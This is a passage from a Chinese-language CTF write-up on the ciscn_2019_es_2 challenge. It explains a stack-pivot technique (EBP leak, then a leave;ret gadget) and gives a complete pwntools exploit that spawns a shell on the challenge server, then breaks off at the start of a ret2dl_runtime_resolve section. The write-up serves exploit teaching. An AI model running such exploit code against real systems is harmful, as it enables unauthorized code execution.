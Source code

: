 函数列表里有system函数，但由于我们能溢出的字符串太短，没办法给system函数构造参数，所以使用栈迁移。

首先我们通过第一次溢出，使程序打印出当前EBP存储的地址。之所以可以打印的原理是，read读入s长度有0x30字节，如果我们输入0x28个字节，read函数就会多读8个字节，也就会将ebp的内容读取进去，而printf函数执行时会将0x30字节的数据都打印，即ebp的内容也会被打印出来。

首先，我们通过调试查了打印出来的ebp内容 距离当前ebp的偏移：

![](https://wutongblogs.oss-cn-beijing.aliyuncs.com/blogs/ret2dl/le7.png?x-oss-process=style/watermark)

如图所示，我们可以知道 read函数的ebp0 距离 printf函数ebp1 之间为0x10的偏移：

<img src="https://wutongblogs.oss-cn-beijing.aliyuncs.com/blogs/ret2dl/le8.png?x-oss-process=style/watermark" style="zoom:80%;" />

然后我们通过第二次溢出，将构造好的system函数输入栈，并将EBP填入我们构造的虚假EBP，将返回地址填入leave_ret进行栈迁移：

<img src="https://wutongblogs.oss-cn-beijing.aliyuncs.com/blogs/ret2dl/le10.png?x-oss-process=style/watermark" style="zoom:80%;" />

如上图所示，我们将虚假的EBP指向read函数栈帧开始的地方，也就是leak_addr - 0x10 -0x28，然后再输入构造好的system函数。这样程序执行leave_ret的时候就会回到read栈帧开始的地方，进而去执行system。值得注意的是，由于leve_ret的后半段是pop ebp指令，然后才是pop eip指令，因此我们需要填入四字节垃圾数据，使得它可以正确执行system。

使用如下执行寻找leave ret进行栈迁移：

```shell
ROPgadget --binary ciscn_2019_es_2 --only 'leave|ret'
```

![](https://wutongblogs.oss-cn-beijing.aliyuncs.com/blogs/ret2dl/le9.png?x-oss-process=style/watermark)

完整exp：

```python
from pwn import *
p=remote('node4.buuoj.cn',27971)
sys_addr = 0x08048400
leave_ret = 0x080484b8
payload ='a'*0x20+'bbbbbbbb' #输入0x28个字节
p.send(payload)
p.recvuntil('bbbbbbbb')
leak_addr = u32(p.recv(4))#接收打印出来的ebp地址
print "0x%x"  %leak_addr
payload2 =('aaaa'+p32(sys_addr)+'bbbb'+p32(leak_addr-0x28)+'/bin/sh\x00').ljust(0x28,'a')
payload2+=p32(leak_addr-0x38)+p32(leave_ret)
p.sendline(payload2)
p.interactive()
```

获取shell成功：

<img src="https://wutongblogs.oss-cn-beijing.aliyuncs.com/blogs/ret2dl/le11.png?x-oss-process=style/watermark" style="zoom:80%;" />

# 二、ret2_dl_runtime_resolve

参考链接：[Advanced ROP (yuque.com)](https://www.yuque.com/hxfqg9/bin/erh0l7)

## 2.1基本原理
